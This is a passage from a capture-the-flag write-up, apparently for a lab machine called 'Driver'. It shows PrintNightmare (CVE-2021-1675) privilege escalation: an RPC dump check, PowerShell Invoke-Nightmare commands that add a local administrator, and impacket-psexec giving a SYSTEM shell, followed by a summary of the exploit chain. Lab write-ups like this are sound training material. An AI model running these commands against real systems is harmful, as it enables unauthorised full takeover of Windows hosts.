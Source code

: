 ### Method2: Printer Nightmare

Dump rpc information: `Print System Remote Protocol`-> printer nightmare

- [Detecting PrintNightmare Exploit Attempts using Trend Micro Vision One and Cloud One | Trend Micro (IT)](https://www.trendmicro.com/it_it/research/21/h/detecting-printnightmare-exploit-attempts-with-trend-micro-vision-one-and-cloud-one.html)
- [calebstewart/CVE-2021-1675: Pure PowerShell implementation of CVE-2021-1675 Print Spooler Local Privilege Escalation (PrintNightmare) (github.com)](https://github.com/calebstewart/CVE-2021-1675/)

```console
└─╼$ cat rpcdump.out | grep 'Print System Remote' -A5
Protocol: [MS-RPRN]: Print System Remote Protocol
Provider: spoolsv.exe
UUID    : 12345678-1234-ABCD-EF00-0123456789AB v1.0
Bindings:
          ncacn_ip_tcp:10.129.95.238[49411]
          ncalrpc:[LRPC-d9d2760f583ba60d65]
```

**Exploit**:

```console
*Evil-WinRM* PS C:\Users\tony\Documents> Import-Module .\cve-2021-1675.ps1
*Evil-WinRM* PS C:\Users\tony\Documents> Invoke-Nightmare -NewUser "qwe" -NewPassword "imqwe"
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user qwe as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll

└─╼$ impacket-psexec qwe:imqwe@driver.htb
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Requesting shares on driver.htb.....
[*] Found writable share ADMIN$
[*] Uploading file yPUypfiV.exe
[*] Opening SVCManager on driver.htb.....
[*] Creating service jQPG on driver.htb.....
[*] Starting service jQPG.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.10240]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

## Exploit Chain

port scan: http, smb, rpc, winrm -> http with default credential & firmware upload -> scf attack: tony priv -> (1) vulnerable printer driver: exploited using msf; (2) print system remote protocol: printer nightmare -> system priv
